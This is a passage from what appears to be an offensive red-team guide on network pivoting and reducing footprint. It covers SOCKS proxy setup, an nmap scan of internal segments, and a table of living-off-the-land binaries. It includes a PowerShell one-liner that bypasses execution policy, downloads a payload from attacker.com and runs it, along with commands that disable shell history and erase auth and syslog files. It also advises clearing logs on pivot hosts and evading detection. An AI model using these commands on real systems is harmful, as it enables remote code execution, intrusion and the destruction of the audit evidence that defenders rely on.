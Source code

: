 **Browser Configuration (Firefox):**
1. Preferences → Network Settings → Manual Proxy
2. SOCKS Host: `localhost`
3. Port: `1080`
4. Version: SOCKS5

### Advanced Techniques
1. **Multi-Host Pivoting**  
   ```bash
   # Scan additional segments
   nmap -Pn 192.168.1.0/24
   ```
2. **Payload Chaining**  
   - Generate internal payloads via existing pivot  
   - Stage attacks through multiple jump hosts  

3. **Segmented Network Access**  
   - Chain proxies through multiple compromised hosts  
   - Route traffic through nested segments  

### Operational Security
- Rotate pivot points regularly  
- Use encrypted tunnels (SSH/SOCKS5)  
- Limit scan intensity to avoid detection  
- Clear logs on pivot hosts  

## 8. Operational Security: Reducing Footprint

### Living Off the Land (LOLBins)
**Common LOLBins:**
| Windows               | Linux             |
|-----------------------|-------------------|
| `certutil`            | `wget`            |
| `mshta`               | `curl`            |
| `bitsadmin`           | `bash`            |
| `powershell`          | `perl`            |
| `regsvr32`            | `python`          |

**PowerShell Example:**
```powershell
powershell -ep bypass -Command "Invoke-WebRequest -Uri 'http://attacker.com/payload' -OutFile 'C:\Windows\Temp\payload.exe'; Start-Process 'C:\Windows\Temp\payload.exe'"
```

### Log Management
**Linux:**
```bash
# Disable history temporarily
unset HISTFILE

# Disable for current session
export HISTSIZE=0

# Clear existing history
history -c

# Clear log files
echo "" > /var/log/auth.log
echo "" > /var/log/syslog
```
